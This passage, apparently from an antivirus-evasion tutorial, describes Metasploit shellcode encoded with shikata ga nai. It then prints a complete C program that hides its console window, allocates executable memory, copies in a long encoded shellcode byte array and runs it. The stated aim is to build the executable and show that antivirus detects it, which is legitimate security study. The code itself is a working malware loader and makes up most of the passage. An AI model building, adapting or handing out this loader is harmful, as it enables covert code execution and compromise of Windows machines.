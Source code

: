 <p align="justify">
As we see from the output above, the only action performed on the shellcode in order to obfuscate the original code as well as to eliminate the null byte, was to encode it using the common encoder hikata ga nai. Furthermore, one thing we should do next, is to scan the executable file using Antivirus software in order to show how the malicious shellcode generated from metasploit can be easily detected. If we compile and build the following code snippet, we will have our malicious executable ready to be scanned.
</p>

```c
#include <windows.h>
#include <iostream>
#include <stdlib.h>

char code[] =
"\xba\x8f\xa2\x98\x34\xd9\xca\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x53\x31\x50\x12\x83\xe8\xfc\x03\xdf\xac\x7a\xc1\x23\x58\xf8"
"\x2a\xdb\x99\x9d\xa3\x3e\xa8\x9d\xd0\x4b\x9b\x2d\x92\x19\x10"
"\xc5\xf6\x89\xa3\xab\xde\xbe\x04\x01\x39\xf1\x95\x3a\x79\x90"
"\x15\x41\xae\x72\x27\x8a\xa3\x73\x60\xf7\x4e\x21\x39\x73\xfc"
"\xd5\x4e\xc9\x3d\x5e\x1c\xdf\x45\x83\xd5\xde\x64\x12\x6d\xb9"
"\xa6\x95\xa2\xb1\xee\x8d\xa7\xfc\xb9\x26\x13\x8a\x3b\xee\x6d"
"\x73\x97\xcf\x41\x86\xe9\x08\x65\x79\x9c\x60\x95\x04\xa7\xb7"
"\xe7\xd2\x22\x23\x4f\x90\x95\x8f\x71\x75\x43\x44\x7d\x32\x07"
"\x02\x62\xc5\xc4\x39\x9e\x4e\xeb\xed\x16\x14\xc8\x29\x72\xce"
"\x71\x68\xde\xa1\x8e\x6a\x81\x1e\x2b\xe1\x2c\x4a\x46\xa8\x38"
"\xbf\x6b\x52\xb9\xd7\xfc\x21\x8b\x78\x57\xad\xa7\xf1\x71\x2a"
"\xc7\x2b\xc5\xa4\x36\xd4\x36\xed\xfc\x80\x66\x85\xd5\xa8\xec"
"\x55\xd9\x7c\x98\x5d\x7c\x2f\xbf\xa0\x3e\x9f\x7f\x0a\xd7\xf5"
"\x8f\x75\xc7\xf5\x45\x1e\x60\x08\x66\x20\x12\x85\x80\x4a\xc4"
"\xc3\x1b\xe2\x26\x30\x94\x95\x59\x12\x8c\x31\x11\x74\x0b\x3e"
"\xa2\x52\x3b\xa8\x29\xb1\xff\xc9\x2d\x9c\x57\x9e\xba\x6a\x36"
"\xed\x5b\x6a\x13\x85\xf8\xf9\xf8\x55\x76\xe2\x56\x02\xdf\xd4"
"\xae\xc6\xcd\x4f\x19\xf4\x0f\x09\x62\xbc\xcb\xea\x6d\x3d\x99"
"\x57\x4a\x2d\x67\x57\xd6\x19\x37\x0e\x80\xf7\xf1\xf8\x62\xa1"
"\xab\x57\x2d\x25\x2d\x94\xee\x33\x32\xf1\x98\xdb\x83\xac\xdc"
"\xe4\x2c\x39\xe9\x9d\x50\xd9\x16\x74\xd1\xe9\x5c\xd4\x70\x62"
"\x39\x8d\xc0\xef\xba\x78\x06\x16\x39\x88\xf7\xed\x21\xf9\xf2"
"\xaa\xe5\x12\x8f\xa3\x83\x14\x3c\xc3\x81";

int main(int argc, char** argv)
{
    HWND hWnd = GetConsoleWindow();
    ShowWindow(hWnd, SW_HIDE);
    void* exec = VirtualAlloc(0, strlen(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, code, sizeof(code));
    ((void(*)())exec)();

    return 0;
}
```
